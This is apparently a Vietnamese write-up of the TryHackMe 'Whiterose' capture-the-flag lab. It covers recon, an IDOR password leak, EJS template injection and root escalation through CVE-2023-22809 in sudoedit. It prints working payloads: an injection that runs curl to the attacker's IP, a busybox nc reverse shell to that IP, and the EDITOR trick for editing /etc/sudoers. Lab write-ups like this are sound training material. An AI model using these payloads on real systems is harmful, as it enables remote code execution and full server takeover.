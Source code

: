 <div align="center">
    <h1>🌹 TryHackMe Whiterose Writeup 🌹</h1>
</div>


<div align="right">
    <em>📌 By: Hoàng Vũ :).</em>
</div>

## 🚀1. Khởi động taget
![Start taget](Images/Start_machine.png)

## 🔍2. Recon
```
nmap -sC -sV 10.10.178.31 
```
![Nmap](Images/Recon_nmap.png)

- Sử dụng nmap quét cổng, thấy 2 cổng mở là `22` và `80`
    - Cổng `22` mở cho dịch vụ `SSH`
    - Cổng `80` chạy máy chủ web ` nginx 1.14.0 (Ubuntu)` qua http
- Truy cập vào địa chỉ ip trang web bằng trình duyệt, thấy được chuyển hướng sang `cyprusbank.thm`.

![Browser](Images/Recon_browser.png)

- Thêm tên miền này vào `etc/hosts` với địa chỉ ip mục tiêu, sau đó truy cập lại.

![hosts](Images/Recon_hosts.png)

- Sử dụng `gobuster` quét thư mục ẩn, tuy vậy có vẻ không có kết quả.

```
gobuster dir -u http://cyprusbank.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
![gobuster](Images/Subdomain_gobuster.png)

- Sử dụng `ffuf` để quét subdomain.

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 -t 100 -mc 200,301,302
```

![ffuf](Images/Subdomain_ffuf.png)

- Tìm được 2 subdomain là `www` và `admin`, truy cập thử vào 2 subdomain này (Lưu ý, thêm vào `etc/hosts` trước khi truy cập).

- Truy cập `http://admin.cyprusbank.thm/` trả về một `login page`

![login page](Images/Subdomain_admin.png)

- Sử dụng thông tin được gợi ý để đăng nhập `Olivia Cortez:olivi8`
- Đăng nhập thành công, truy cập được vào một số tài nguyên của trang web, trong đó một số bị hạn chế.

![login success](Images/Login_success.png)


## 🔑3. Truy cập trang web
- Thử tìm kiếm tên `Tyrell Wellick`, tuy nhiên, tài khoản hiện tại có vẻ chỉ xem được thông tin `Balance` mà không xem được số điện thoại.

![Tyrell Wellick](Images/Web1.png)

- Kiểm tra một lượt trang web, tại page `messages` với đường dẫn `http://admin.cyprusbank.thm/messages/?c=5` có chứa tham số `c=5` - dấu hiệu có thể bị `IDOR`

![Messages](Images/Web_mess.png)

- Thử giá trị của `c` với các số khác nhau. tại `c=9`, phát hiện thông tin mật khẩu của tài khoản `Gayle Bev`

![IDOR](Images/Web_IDOR.png)

- Đăng nhập vào trang Web bằng tài khoản này, thành công lấy được số điện thoại của `Tyrell Wellick`

![Tyrell](Images/Tyrell_phone.png)

- Submit thành công answer 1

![Tyrell](Images/Tyrell_correct.png)

## 📄4. Truy cập web shell

- Tiếp tục đăng nhập với tài khoản `Gayle Bev`, truy cập được page `Customer Settings` cho phép cập nhật mật khẩu của tài khoản nhân viên.

![setting](Images/WebShell1.png)

- Thử sử dụng `Burp Suite` bắt và kiểm tra payload khi thực hiện cập nhật mật khẩu.

![BurpSuite](Images/Burp_request.png)

- Mật khẩu sau khi cập nhật được hiển thị lại ở response, có thể dẫn tới `XSS`. Tuy vậy nhập thử một số payload XSS thì không thu được kết quả.
- Xóa thử trường `password`, kiểm tra response nhận được thông báo lỗi.

![BurpSuiteEjs](Images/Burp_request2.png)

- Có vẻ lỗi này có liên quan đến template engine `EJS`, có thể dẫn đến `SSTI - Server-Side Template Injection` trong `NoteJs`. Tìm kiếm thêm thông tin, tìm được một số bài viết liên quan: [EJS, Server side template injection ejs@3.1.9](https://github.com/mde/ejs/issues/720)

- Có vẻ lỗi này xuất hiện khi sử dụng biến trong template `EJS` mà không kiểm tra nó tồn tại, thì EJS sẽ ném lỗi `ReferenceError` nếu biến đó không được định nghĩa trong `render()`.
- Ở đây `password` không được truyền vào trong `res.render('template', { ... })` nên nó gây ra lỗi `ReferenceError: password is not defined`
- Dựa vào POC tìm được, ta có payload sau:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.21.175.20');//
```
- Trong đó:
    - Web server nhận trực tiếp tham số `settings[view options][...]` từ query hoặc body 
    - Web server không lọc hoặc validate các trường `settings[...]`, nên bạn inject thẳng vào cấu hình của `EJS`.
    - Lợi dụng việc ghi đè cấu hình để kết thúc đoạn EJS template sớm và chèn mã JavaScript tùy ý thông qua đoạn `process.mainModule.require('child_process').execSync(...)`
- Tạo python server và chèn thử payload trên vào request xem nó có chạy thành công không 

![Hoangdeptrai](Images/Ejs_payload.png)

![Hoangdeptrai](Images/Ejs_pythonServer.png)

- Có vẻ payload thực thi thành công, tiến hành tạo `reverse shell`

- Tạo shell trên revshells.com

![Hoangdeptrai](Images/Reverse.com.png)

- Ta được payload:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.21.175.20 1234 -e /bin/sh');//
```
- Chèn payload thông qua `Burp Suite`, listen port: `nc -lvnp 1234`

![Hoangdeptrai](Images/Insert_payload.png)

![Hoangdeptrai](Images/Reverse_shell.png)

- Sau khi nhận `reverse shell` thành công, update shell cho dễ nhìn:

![Hoangdeptrai](Images/Update_shell.png)

- Tìm kiếm web flag, tìm được trong file `/home/web/user.txt`

![Hoangdeptrai](Images/Flag1.png)

![Hoangdeptrai](Images/Flag1.1.png)

## ⚠️5. Leo quyền lên root shell
- Kiểm tra những quyền có thể chạy với sudo qua lệnh `sudo -l`

![Hoangdeptrai](Images/sudo-l.png)

- Có thể thấy ta có quyền chạy `sudoedit` với quyền sudo

- Tìm kiếm xem có lỗ hổng nào có thể khai thác với quyền này không 

![Hoangdeptrai](Images/sudoedit_cve.png)

- `CVE-2023-22809` cho phép leo thang đặc quyền với `sudo 1.8.0 đến 1.9.12p1`

![Hoangdeptrai](Images/CVE-2023-22809.png)
- Kiểm tra phiên bản sudo của máy chủ:

![Hoangdeptrai](Images/sudoedit-v.png)

-> Phiên bản phù hợp, có thể khai thác.
- Sử dụng lệnh:
```
export EDITOR="vi -- /etc/sudoers"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- Trong đó:
    - Biến môi trường `EDITOR` được `sudoedit` sử dụng để xác định trình soạn thảo văn bản
    - `vi -- /etc/sudoers` là cú pháp lợi dụng để ép vi mở file `/etc/sudoers` thay vì file hợp lệ được chỉ định.
    - Mục đích là đánh lừa `sudoedit` mở file tùy ý (`/etc/sudoers`) dù người dùng chỉ được cấp quyền chỉnh sửa `/etc/nginx/sites-available/admin.cyprusbank.thm.`
- Sau khi thành công mở file `/etc/sudoers` bằng `vi`, chèn thêm dòng `web ALL=(ALL:ALL) ALL` với mục đích cho user `web` có toàn quyền `sudo`

![Hoangdeptrai](Images/All_root.png)

- Sau khi chèn thành công, `sudo su` để vào quyền root

![Hoangdeptrai](Images/Sudo-su.png)

- Chiếm quyền `root` thành công, tìm flag trong `/root/root.txt`

![Hoangdeptrai](Images/flag2.png)

![Hoangdeptrai](Images/flag2.2.png)

=> Hoàn thành Lab :) 🔥🔥🔥

![Hoangdeptrai](Images/Complete.png)















